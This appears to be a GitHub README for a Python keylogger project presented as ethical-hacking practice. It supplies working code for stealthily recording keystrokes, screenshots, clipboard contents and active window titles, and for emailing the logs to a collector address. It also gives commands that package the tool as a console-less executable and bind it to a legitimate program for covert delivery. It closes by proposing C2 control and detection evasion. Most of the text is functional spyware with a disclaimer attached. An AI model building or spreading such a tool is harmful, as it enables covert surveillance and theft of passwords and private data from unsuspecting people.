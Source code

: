 # PROJECTNAME

## Objective

This project aimed to develop a fully functional keylogger using Python that can capture and store keystrokes while operating stealthily in the background. The project included additional functionalities such as:

* Recording keystrokes in real-time.
* Taking periodic screenshots of the target machine.
* Capturing clipboard content.
* Logging active windows to track user activity.
* Operating in stealth mode with minimal detection.
* Sending collected data via email or storing it locally in a file.
* Optionally embedding the keylogger within a legitimate file for stealth delivery.
* This project provided hands-on experience in ethical hacking, malware development, and system monitoring.

### Skills Learned

* **Python programming** (Scripting, automation, and file handling)
* **Keyboard event monitoring** using the pynput module
* **Screenshot capturing** with Pillow (PIL)
* **Clipboard access** using pyperclip
* **Active window logging** with pygetwindow
* **Stealth operation techniques** (running in the background)
* **Data exfiltration** via email and **server-based** delivery
* **Building standalone executables** with pyinstaller

### Tools & Libraries Used

* **Python 3** (Primary programming language)
* **pynput** (Keyboard event tracking)
* **Pillow (PIL)** (For taking screenshots)
* **pyperclip** (Clipboard access)
* **pygetwindow** (Tracking the active window)
* **smtplib** (Email sending)
* **pyinstaller** (Converting the script into an executable)

## Steps

1️⃣ **Setting Up the Keylogger**
* Imported pynput.keyboard.Listener to listen for keystrokes.
* Created a function to store the captured keystrokes in a log file.
* Ensured that special keys (Enter, Shift, etc.) were properly recorded.

📌 **Code Snippet: Keystroke Logging:**
```python
from pynput.keyboard import Listener

def log_keystroke(key):
    with open("logs.txt", "a") as file:
        file.write(str(key) + "\n")

with Listener(on_press=log_keystroke) as listener:
    listener.join()
```


2️⃣ **Capturing Screenshots**
* Used the Pillow (PIL) library to capture and save screenshots at regular intervals.
* Saved screenshots to a predefined directory.

📌 **Code Snippet: Screenshot Capture**
```python
from PIL import ImageGrab
import time

def take_screenshot():
    screenshot = ImageGrab.grab()
    screenshot.save(f"screenshot_{time.strftime('%Y%m%d-%H%M%S')}.png")

take_screenshot()```

3️⃣ **Capturing Clipboard Content**
* Used pyperclip to extract the contents of the clipboard.
* Logged clipboard data alongside keystroke logs.

📌 **Code Snippet: Clipboard Logging**
```python
import pyperclip

def get_clipboard():
    clipboard_data = pyperclip.paste()
    with open("logs.txt", "a") as file:
        file.write("\nClipboard Data: " + clipboard_data + "\n")

get_clipboard()```

4️⃣ **Logging Active Window Titles**
* Used pygetwindow to track and log the active window.
* This helped in identifying which applications were being used while typing.

📌 **Code Snippet: Active Window Tracking**
```python
import pygetwindow as gw

def get_active_window():
    active_window = gw.getActiveWindow()
    if active_window:
        with open("logs.txt", "a") as file:
            file.write("\nActive Window: " + active_window.title + "\n")

get_active_window()```

5️⃣ **Sending Data via Email**
* Used Python’s built-in smtplib to send collected logs and screenshots via email.
* Configured email settings to automate data exfiltration.

📌 **Code Snippet: Sending Logs via Email**
```python
import smtplib
from email.message import EmailMessage

def send_logs():
    email_sender = "abc123@example.com"
    email_receiver = "def456@example.com"
    password = "your_password"

    msg = EmailMessage()
    msg.set_content("Attached are the captured logs.")
    msg["Subject"] = "Keylogger Logs"
    msg["From"] = email_sender
    msg["To"] = email_receiver

    with open("logs.txt", "rb") as file:
        msg.add_attachment(file.read(), filename="logs.txt")

    server = smtplib.SMTP_SSL("smtp.example.com", 465)
    server.login(email_sender, password)
    server.send_message(msg)
    server.quit()

send_logs()```

6️⃣ **Hiding the Keylogger (Stealth Mode)**
* Ensured the script ran in the background without a visible console window.
* Used pyinstaller to bundle the script into an executable file.

📌 **Code Snippet: Running in Background**
```python
import os

def hide_console():
    os.system("attrib +h logs.txt")

hide_console()```

7️⃣ **Converting to an Executable**
* Used pyinstaller to package the script as an .exe file.
* Ensured it could be delivered as a standalone executable.

📌 **Command to Convert Script:**
```python
pyinstaller --onefile --noconsole keylogger.py
```

8️⃣ **Embedding in a Legitimate File**
* Explored methods of embedding the keylogger into a legitimate file.
* Used payload binding techniques to bundle the script with another executable.

📌 **Command to Bundle with Another File:**
```python
copy /b legitimate.exe + keylogger.exe output.exe
```

**Conclusion**
This project provided valuable experience in ethical hacking, malware development, and stealth operations. The keylogger was designed to be highly functional, capturing keystrokes, screenshots, clipboard data, and active windows while remaining hidden.

**Future Enhancements**
* Encrypting logs before exfiltration to enhance stealth.
* Using a C2 (Command & Control) server for remote access instead of email.
* Improving obfuscation techniques to evade detection.
* Adding self-destruct functionality to erase logs after exfiltration.

**This project demonstrates how keyloggers work and provides insights into security vulnerabilities that can be exploited. Ethical hackers and security professionals can use this knowledge to enhance system defenses against malicious threats.**
